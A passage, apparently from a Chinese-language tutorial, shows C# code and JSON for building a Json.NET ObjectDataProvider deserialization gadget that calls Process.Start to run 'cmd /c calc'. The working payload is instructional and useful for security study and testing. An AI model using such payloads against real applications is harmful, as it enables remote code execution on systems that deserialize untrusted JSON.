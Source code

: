```C#
    }
    
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "evil";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc");
            objectDataProvider.ObjectInstance = new Person();

            string payload = JsonConvert.SerializeObject(objectDataProvider, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All,
                TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full
            });
            Console.WriteLine(payload);
        }
    }
}
```

```json
{"$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35","ObjectInstance":{"$type":"Json.NetSerializer.Person, Json.NetSerializer, Version=1.0.0.
0, Culture=neutral, PublicKeyToken=null"},"MethodName":"evil","MethodParameters":{"$type":"MS.Internal.Data.ParameterCollection, PresentationFramework, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35","$values"
:["cmd.exe","/c calc"]},"IsAsynchronous":false,"IsInitialLoadEnabled":true,"Data":null,"Error":null}
```

那可以对这个内容进行修改来得到System.Diagnostics.Process序列化的Json字符串，替换掉ObjectInstance的$type、MethodName的值以及MethodParameters的$type值，删除一些不需要的Member、最终得到的反序列话Json字符串如下

```json
{

'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',

'MethodName':'Start',

'MethodParameters':{

'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',

'$values':['cmd','/c calc']

},

'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}

}
```
